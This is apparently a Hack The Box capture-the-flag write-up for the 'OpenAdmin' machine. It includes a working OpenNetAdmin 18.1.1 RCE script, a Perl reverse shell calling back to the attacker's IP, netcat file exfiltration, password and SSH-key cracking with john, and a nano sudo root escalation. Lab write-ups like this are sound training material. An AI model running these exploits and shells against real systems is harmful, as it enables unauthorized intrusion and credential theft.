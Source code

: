 # OpenAdmin
This box can be quite a pain for beginners to do, but the troubleshooting part is enough to learn some useful new tricks.

![OpenAdmin](../Images/htb_openadmin_1.png)

**Tools: nmap, gobuster, netcat, LinEnum/LinPEAS, ssh2john, john.**

We begin with the nmap scan:  
`nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.171`

![OpenAdmin](../Images/htb_openadmin_2.png)

With port 80 open, we can take a look at the webpage, and meanwhile run a fuzzer with gobuster:  
(Try a lower value [like 100, or use the default 10] for the -t flag if any error occurs)  
`gobuster dir -u http://10.10.10.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 300`

![OpenAdmin](../Images/htb_openadmin_3.png)

We're able to find the directories 'artwork', 'music' and 'sierra'. After some testing, we can see that in the 'music' directory, if we click on the 'Login' button we're redirected to the '/ona' directory.

![OpenAdmin](../Images/htb_openadmin_4.png)

This seems to be the OpenNetAdmin dashboard, and in here we can see the application's version (v18.1.1).

![OpenAdmin](../Images/htb_openadmin_5.png)

With this information, we can go straight to [exploit-db](https://www.exploit-db.com/) and look for an exploit.

![OpenAdmin](../Images/htb_openadmin_6.png)

There's an RCE exploit available for download. The code wasn't working for me, so I had to make a few changes (identation/spacing, mostly), so here's what worked for me:

```
#!/bin/bash
URL="${1}"
while true;do
    echo -n "$ "; read cmd
    curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e'/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Now we can simply run the shell script:  

```
chmod +x 47691.sh
./47691.sh 10.10.10.171/ona/
```

![OpenAdmin](../Images/htb_openadmin_7.png)

And we have a shell.  
Now this is the part that took me some time to figure out. My attempts to spawn a fully interactive tty shell or start a reverse shell were always met with errors or simply a connection drop (I was monitoring it with 'tcpdump -i tun0'). So this is what worked for me:  
First of all, put a perl reverse shell code inside a file, let's call it revs.pl (it's a one-liner - remember to change the IP to your tun0 IP):  

```
perl -e 'use Socket;$i="10.10.14.245";$p=16501;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Next, start a python simple http server in the same folder of the perl file in your machine to send the exploit to the target:  
`python3 -m http.server 80`

In another terminal window, start a netcat listening session:  
`nc -vnlp 16501`

Now inside of the shell that we've got earlier with the exploit:  

```
curl 10.10.14.245/revs.pl > revs.pl (use your tun0 IP)
chmod 777 revs.pl (give the file permission to run)
./revs.pl (run the script)
```

You'll get a shell in the netcat window, now we can finally spawn a fully interactive shell:  
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

![OpenAdmin](../Images/htb_openadmin_8.png)

Now we need to enumerate the box.  
This next step didn't give many good results, but I'll write it down because it was a bit of a pain, and I've learned a few new tricks. With LinPeas I couldn't get it to save the output to a file without breaking the results completely, so I decided to use LinEnum.  
```
git clone https://github.com/rebootuser/LinEnum.git  
cd LinEnum  
```

Start once again a python3 http server, and then curl the linenum.sh file to the target. After that, give the script permissions and run it:  
```
chmod 777 linenum.sh  
./linenum.sh -r result -e . -t
```

When it finishes, use netcat to send the file to your machine:  
`nc -q 5 -vnlp 9068 < result-16-07-21`

Then, in your machine, download the file through netcat and read it using 'less':  
```
nc -v 10.10.10.171 9068 > result-16-07-21  
cat result-16-07-21 | less
```

![OpenAdmin](../Images/htb_openadmin_9.png)

Now we still need to manually enumerate the box.  
At /var/www/ we can see that the directory 'internal' can only be accessed by the user 'jimmy'. Further enumeration takes us to /var/www/html/ona/local/config and inside the ona database configuration file 'database_settings.inc.php' we can see that there's the user 'ona_sys' and an exposed password 'n1nj4W4rri0R!'.

![OpenAdmin](../Images/htb_openadmin_10.png)

We can try to SSH into jimmy's account with that password:

![OpenAdmin](../Images/htb_openadmin_11.png)

And now we are able to access the /var/www/internal directory.  
If we read the php files, we can see a hashed password (SHA512) in the index.php.  

![OpenAdmin](../Images/htb_openadmin_12.png)

We can crack it with an online tool such as [Crackstation](https://crackstation.net/), but we can also use John - save the hash to a hash.txt file:  
`john hash.txt --format=Raw-SHA512 --wordlist=/usr/share/wordlists/rockyou.txt --rules=Jumbo`

We'll get the password 'Revealed'. This is useful if you use the SSH port forwarding/tunneling technique to pwn this box, but I won't use that because I had some trouble with it, so this password won't have much use.  
Now reading the main.php we can see the following:

![OpenAdmin](../Images/htb_openadmin_13.png)

Without even knowing a lot about php code, we can already notice the chance that this file might be leaking an ssh private key.  

I got stuck at this point and had to get some help. We could either run 'ss -lnpt', 'netstat -naep | grep LISTEN | grep -v LISTENING' or read the file '/etc/apache2/sites-enabled/internal.conf'. Either way we'll find that there's an internal virtual host running on 127.0.0.1:52846 as user 'joanna'.

![OpenAdmin](../Images/htb_openadmin_14.png)

With this information, we could either create an SSH port forwarding/tunneling, or try to curl the main.php file:  
`curl 127.0.0.1:52846/main.php`

And we're lucky, because this works. We can save the key (I'm using its original filename):

![OpenAdmin](../Images/htb_openadmin_15.png)

Now we can run ssh2john toconvert the key to a format that can be cracked with john:  
```
/usr/share/john/ssh2john.py id_rsa > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![OpenAdmin](../Images/htb_openadmin_16.png)

The password we get is 'bloodninjas'.  
Next up, we can use the ssh key and the password to access joanna's account through SSH:  
```
chmod 600 id_rsa  
ssh -i id_rsa joanna@10.10.10.171
```

![OpenAdmin](../Images/htb_openadmin_17.png)

At joanna's home directory we can grab the user flag (user.txt).  
The escalation of privileges is the easiest part of this box. We simply check what files joanna can run as root:  
`sudo -l`

![OpenAdmin](../Images/htb_openadmin_18.png)

And, based on the results, we can use a simple nano sudo privesc from [GTFObins](https://gtfobins.github.io/gtfobins/nano/#sudo):  
`sudo -u root /bin/nano /opt/priv`

Inside the nano file, first press Ctrl+R then Ctrl+X and then type the command to be executed:  
`reset; sh 1>&0 2>&0`

Press enter and you'll be root. Now just grab the root flag at /root/root.txt and you're done!

![OpenAdmin](../Images/htb_openadmin_19.png)

Thats it, a very extensive box that requires quite a bit of troubleshooting and some very specific knowledge, but it's a great learning experience!  

Thanks for reading and keep hacking!
